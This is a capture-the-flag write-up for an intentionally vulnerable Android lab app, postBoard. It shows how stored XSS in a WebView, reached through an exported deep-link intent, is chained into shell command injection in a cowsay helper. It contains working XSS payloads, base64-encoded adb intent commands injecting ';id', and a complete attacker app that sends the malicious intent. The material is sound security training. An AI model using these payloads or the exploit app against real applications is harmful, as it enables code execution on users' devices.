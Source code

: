 #ctf #webviews #XSS #code-execution #intents-extra #adb 
**Description**: Welcome to the **Android Insecure WebView Challenge**! This challenge is designed to delve into the complexities of Android's WebView component, exploiting a Cross-Site Scripting (XSS) vulnerability to achieve Remote Code Execution (RCE). It's an immersive opportunity for participants to engage with Android application security, particularly focusing on WebView security issues.

**Download**: https://lautarovculic.com/my_files/postBoard.apk
**Link**:https://www.mobilehackinglab.com/path-player?courseid=lab-webview

![[postBoard.png]]

Install the app with **ADB**
```bash
adb install -r postBoard.apk
```

So, a simple test with `<img src=asd onerror=alert('xss');>` it's work.
We can craft a **storaged XSS** in the app.
The way of find a **RCE**, is looking the **source code**.

Let's inspect the **source code** with **jadx**
We have the **MainActivity** exported that **handle an Intent**
```XML
<activity
    android:name="com.mobilehackinglab.postboard.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="postboard"
            android:host="postmessage"/>
    </intent-filter>
</activity>
```

We can *post a message* with the following **ADB** command:
```bash
adb shell am start -a android.intent.action.VIEW \
-d "postboard://postmessage/<base64-Payload>" \
com.mobilehackinglab.postboard
```
But
**Why base64?**
We can see in the `handleIntent()` method
```java
private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (!Intrinsics.areEqual("android.intent.action.VIEW", action) || data == null || !Intrinsics.areEqual(data.getScheme(), "postboard") || !Intrinsics.areEqual(data.getHost(), "postmessage")) {
        return;
    }
    ActivityMainBinding activityMainBinding = null;
    try {
        String path = data.getPath();
        byte[] decode = Base64.decode(path != null ? StringsKt.drop(path, 1) : null, 8);
        Intrinsics.checkNotNullExpressionValue(decode, "decode(...)");
        String message = StringsKt.replace$default(new String(decode, Charsets.UTF_8), "'", "\\'", false, 4, (Object) null);
        ActivityMainBinding activityMainBinding2 = this.binding;
        if (activityMainBinding2 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding2 = null;
        }
        activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
    } catch (Exception e) {
        ActivityMainBinding activityMainBinding3 = this.binding;
        if (activityMainBinding3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
        } else {
            activityMainBinding = activityMainBinding3;
        }
        activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
    }
}
```
That there are a **base64** decode in the message.

But if we send a **malformed base64**, we can see a *cow* that say
![[postBoard2.png]]

Notice that **JavaScript** is enabled in the `setupWebView()` method
```java
webView.getSettings().setJavaScriptEnabled(true);
```

Inside of the app, we can see in the **resources directory**, that there are **two files**.
`cowsay.sh` and `index.html`.
The `index.html` file is the content of the **WebView**. And the `cowsay.sh` is the *error handler* when we send a *bad base-64*.

But, **why an `.sh` file?** well, if we pay attention in the **MainActivity.java** class, we can found another class: **`CowsayUtil`**
That have the following interesting code:
```java
public final String runCowsay(String message) {
    Intrinsics.checkNotNullParameter(message, "message");
    try {
        String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
        Process process = Runtime.getRuntime().exec(command);
        StringBuilder output = new StringBuilder();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            while (true) {
                String it = reader.readLine();
                if (it == null) {
                    Unit unit = Unit.INSTANCE;
                    Closeable.closeFinally(bufferedReader, null);
                    process.waitFor();
                    String sb = output.toString();
                    Intrinsics.checkNotNullExpressionValue(sb, "toString(...)");
                    return sb;
                }
                output.append(it).append("\n");
            }
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return "cowsay: " + e.getMessage();
    }
}
```
Notice this command execution
```java
String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
Process process = Runtime.getRuntime().exec(command);
```

Also, in **MainActivity** let's look how the **WebView** work.
```java
private final void setupWebView(WebView webView) {
    webView.getSettings().setJavaScriptEnabled(true);
    webView.setWebChromeClient(new WebAppChromeClient());
    webView.addJavascriptInterface(new WebAppInterface(), "WebAppInterface");
    webView.loadUrl("file:///android_asset/index.html");
}
```
We can see that the interface is called **WebAppInterface**. And is used in this piece of code:
```java
activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
```

We can make an **methods enumeration** with this payload:
```html
<img src=asd onerror=alert(Object.keys(WebAppInterface))>
```
Output:
```bash
clearCache, getMessages, postCowsayMessage, postMarkdownMessage
```
I think that the `postCowsayMessage` is that we need to achieve RCE.

That is used under
```java
activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
```
The `getMessage()` is `bad base-64` text.
We can try change this with
```html
<img src=asd onerror=WebAppInterface.postCowsayMessage('"hola"')>
```
Then, send an intent with a malformed base64
```bash
adb shell am start -a android.intent.action.VIEW \
-d "postboard://postmessage/lautarovculicCg==" \
com.mobilehackinglab.postboard
```

![[postBoard3.png]]

We can see that the **text has been changed**.
So, we can use `;` to execute a command?
```html
<img src="asd" onerror="WebAppInterface.postCowsayMessage('hola;id')"> 
```
Send it via **ADB**
```bash
adb shell am start -a android.intent.action.VIEW \
-d postboard://postmessage/PGltZyBzcmM9ImFzZCIgb25lcnJvcj0iV2ViQXBwSW50ZXJmYWNlLnBvc3RDb3dzYXlNZXNzYWdlKCdob2xhO2lkJykiPiA= \
-n com.mobilehackinglab.postboard/.MainActivity
```
Then, send an malformed base-64
```bash
adb shell am start -a android.intent.action.VIEW \
-d "postboard://postmessage/lautarovculicCg==" \
com.mobilehackinglab.postboard
```

![[postBoard4.png]]
And we got **RCE**!

You can **craft an app** with this **`MainActivity.java`** class
```java
package com.lautaro.executeboard;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button sendIntentButton = findViewById(R.id.sendIntentButton);
        sendIntentButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Craft Intent
                Intent intent = new Intent(Intent.ACTION_VIEW);
                intent.setData(Uri.parse("postboard://postmessage/PGltZyBzcmM9ImFzZCIgb25lcnJvcj0iV2ViQXBwSW50ZXJmYWNlLnBvc3RDb3dzYXlNZXNzYWdlKCdob2xhO2lkJykiPiA="));
                intent.setClassName("com.mobilehackinglab.postboard", "com.mobilehackinglab.postboard.MainActivity");
                
                // Send Intent
                startActivity(intent);
            }
        });
    }
}
```
And **`activity_main.xml`**
```XML
<?xml version="1.0" encoding="utf-8"?>
<RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    android:padding="16dp">

    <Button
        android:id="@+id/sendIntentButton"
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Send Intent" 
        android:layout_centerInParent="true"/>
</RelativeLayout>
```



I hope you found it useful (: